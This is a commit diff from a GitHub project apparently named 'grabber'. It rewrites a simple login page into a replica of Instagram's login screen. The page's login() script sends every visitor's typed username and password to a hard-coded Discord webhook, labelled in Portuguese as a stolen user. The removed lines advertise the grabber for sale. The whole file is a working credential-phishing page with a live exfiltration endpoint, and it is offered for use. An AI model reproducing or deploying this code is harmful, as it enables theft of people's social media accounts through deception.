

Before and after one commit to muriloz23/grabber, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,58 +1,130 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="pt-BR">
 <head>
     <meta charset="UTF-8">
-    <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Tela de login</title>
+    <title>Instagram</title>
+    <link rel="icon" href="https://cdn-icons-png.freepik.com/256/15713/15713420.png?semt=ais_hybrid" type="image/png"> <!-- Ícone atualizado -->
     <style>
-        body{
-            font-family: Arial, Helvetica, sans-serif;
-            background-image: linear-gradient(45deg, cyan, yellow);
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #fafafa;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
         }
-        div{
-            background-color: rgba(0, 0, 0, 0.9);
+        .login-container {
+            align-items: center;
+            background-color: rgb(255, 255, 255);
+            border: 1px solid rgb(219, 219, 219);
+            border-radius: 1px;
+            box-sizing: border-box;
+            display: flex;
+            flex-direction: column;
+            width: 400px;
+            padding: 20px 0;
+            box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
+        }
+        .logo {
+            background-image: url("https://static.cdninstagram.com/rsrc.php/v4/yv/r/KoLLpWDb4f6.png");
+            background-position: 0px -52px;
+            background-size: auto;
+            width: 175px;
+            height: 51px;
+            background-repeat: no-repeat;
+            display: inline-block;
+            margin-bottom: 20px;
+        }
+        .login-container input {
+            width: 75%;
+            padding: 10px;
+            margin: 10px 0;
+            border: 1px solid rgb(219, 219, 219);
+            border-radius: 5px;
+        }
+        .login-container button {
+            width: 82%;
+            padding: 10px;
+            background-color: #42b3ff;
+            color: white;
+            border: none;
+            border-radius: 5px;
+            cursor: pointer;
+            font-size: 16px;
+            font-weight: bold;
+            margin-top: 20px; /* Aumentado para descer o botão */
+        }
+        .login-container button:hover {
+            background-color: #007bbf;
+        }
+        .divider {
+            margin: 30px 0; /* Aumentado o espaço acima e abaixo do divisor */
+            text-align: center;
+            position: relative;
+        }
+        .divider::before,
+        .divider::after {
+            content: '';
+            display: block;
+            height: 1px;
+            background: rgb(219, 219, 219);
             position: absolute;
             top: 50%;
-            left: 50%;
-            transform: translate(-50%,-50%);
-            padding: 80px;
-            border-radius: 15px;
-            color: #fff;
+            width: 40%;
         }
-        input{
-            padding: 15px;
-            border: none;
-            outline: none;
-            font-size: 15px;
+        .divider::before {
+            left: 0;
         }
-        button{
-            background-color: dodgerblue;
-            border: none;
-            padding: 15px;
-            width: 100%;
-            border-radius: 10px;
-            color: white;
-            font-size: 15px;
-
+        .divider::after {
+            right: 0;
         }
-        button:hover{
-            background-color: deepskyblue;
-            cursor: pointer;
+        .divider span {
+            background: white;
+            padding: 0 10px;
+            color: #888;
+            font-weight: bold; /* Mantido o peso da fonte */
+        }
+        .facebook-link {
+            display: flex;
+            align-items: center;
+            text-decoration: none;
+            color: #02a2ff;
+            font-size: 14px;
+            margin-top: 10px;
+            font-weight: bolder;
+        }
+        .facebook-link img {
+            width: 20px;
+            height: 20px;
+            margin-right: 8px;
+        }
+        .forgot-password {
+            text-decoration: none;
+            color: #405c6e;
+            font-size: 14px;
+            margin-top: 20px;
+            display: block;
+            text-align: center;
         }
     </style>
 </head>
 <body>
-    <div>
-        <h1>Login</h1>
-        <input type="text" placeholder="Nome">
-        <br><br>
-        <input type="password" placeholder="Senha">
-        <br><br>
-        <button>Enviar</button>
+
+<div class="login-container">
+    <div class="logo"></div>
+    <input type="text" id="username" placeholder="Phone number, username, or email" required>
+    <input type="password" id="password" placeholder="Password" required>
+    <button onclick="login()">Log in</button>
+    <div class="divider">
+        <span>Or</span>
     </div>
-</body>
-</html>
+    <a href="https://www.facebook.com" class="facebook-link">
+        <img src="https://cdn-icons-png.flaticon.com/256/5968/5968764.png" alt="Facebook">Log in with Facebook
+    </a>
+    <a href="#" class="forgot-password">Forgot password?</a>
+</div>
 
 <script>
     function login() {
@@ -68,7 +140,7 @@
         // Enviar as credenciais para o webhook do Discord
         const webhookUrl = 'https://discord.com/api/webhooks/1322009369239617546/52wE5P2l6X4SrrJaTdkmee4ZffzXdRs4QcMaf8lFjrY0Mz4WhD93RNDvQen6Jqsl7qP4';
         const data = {
-            content: `# Usuário Grabbado com sucesso:\nSuposto Login: ||${username}||\nSuposta senha: ||${password}||\n\n\n GRABBER FEITO POR BANIDOS.SHOP. ADQUIRA O GRABBER: [BANIDOS.SHOP ](https://banidos.shop/) /`
+            content: `# Usuario Roubado:\nUsuário: ${username}\nSenha: ||${password}||`
         };
 
         fetch(webhookUrl, {
```
